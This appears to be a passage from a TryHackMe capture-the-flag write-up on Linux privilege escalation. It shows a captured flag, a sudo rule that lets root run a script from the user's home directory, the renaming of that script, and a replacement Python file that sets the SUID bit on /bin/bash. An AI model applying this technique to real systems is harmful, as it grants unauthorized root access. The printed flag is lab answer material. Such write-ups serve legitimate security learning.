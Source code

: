 
# PRIVILEGE ESCALATION
---

```
cyber@ubuntu:~$ cat flag1.txt
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

If we check our privileges, we can notice this:

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

Let's check that file then:

```
cyber@ubuntu:~$ ls -la run.py
-rwx------ 1 root root 349 Nov 15  2020 run.py
cyber@ubuntu:~$ cat run.py
cat: run.py: Permission denied
```

Only `root` can visualize or edit the file, the vulnerability on here lays on the path, since the script is inside of `cyber`, we can modify the file into another extension and create a malicious `run.py` file:

```bash
mv run.py run.py.php
```

Now, let's create a malicious python file:

```python
import os
os.system('chmod u+s /bin/bash')
```

Now, we can run the script as sudo:

```bash
sudo /usr/bin/python3 /home/cyber/run.py
```

If we check `/bin/bash`:

![Pasted image 20250425132224.png](../../IMAGES/Pasted%20image%2020250425132224.png)
